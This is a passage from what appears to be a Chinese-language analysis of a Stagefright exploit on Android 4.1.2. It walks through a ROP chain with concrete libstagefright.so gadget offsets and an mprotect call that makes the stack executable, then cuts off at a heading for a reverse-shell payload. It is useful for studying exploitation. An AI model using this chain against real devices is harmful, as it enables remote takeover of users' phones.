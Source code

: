 将r3，r4，r5入栈。

```
.text:00010BB8      LDMFD           SP, {SP-PC}

```

出栈操作；执行完后`sp=ROP+0xC`；`lr=0xb0002a98`；`pc=0xb00038b2+1`

**3）执行pc**

此时pc为0xb00038b2+1，基所指向的指令为：

```
pop {r0, r1, r2, r3, r4, pc}

```

将sp指向的栈弹出并存入到r0-r4及pc寄存器中，该条指令执行完后，r0=sp_addr & 0xFFFFF000，r1=0x1000，r2=7，pc=0xb001144。

该条指令可以libstagefright.so中找到。如在4.1.2下：thumb，libstagefright.so + 0x0009086C。

**4）再执行pc**

此时pc为0xb001144，该地址是mprotect函数的地址，位于libc.so中，代码如下：

```
.text:0000CACC                 EXPORT mprotect
.text:0000CACC                 STMFD           SP!, {R4,R7}
.text:0000CAD0                 MOV             R7, #0x7D
.text:0000CAD4                 SVC             0        ;超级用户调用
.text:0000CAD8                 LDMFD           SP!, {R4,R7}
.text:0000CADC                 MOVS            R0, R0
.text:0000CAE0                 BXPL            LR      
.text:0000CAE4                 B               sub_39D44

```

将sp_addr地址，长度为0x1000的内存改为可执行权限。

```
.text:0000CAE0                 BXPL            LR

```

如果执行成功则调用lr，即0xb0002a98。

**5）执行lr**

此时lr为0xb0002a98，其指向的指令如下：

```
pop {pc}

```

当前`sp=ROP+0x24`，执行完成后`pc=sa+0x80，即shell_reverse_tcp代码的地址。

该条指令可以libstagefright.so中找到。如在4.1.2下：thumb，libstagefright.so + 0x0005ad14。

**1.2 shell_reverse_tcp**
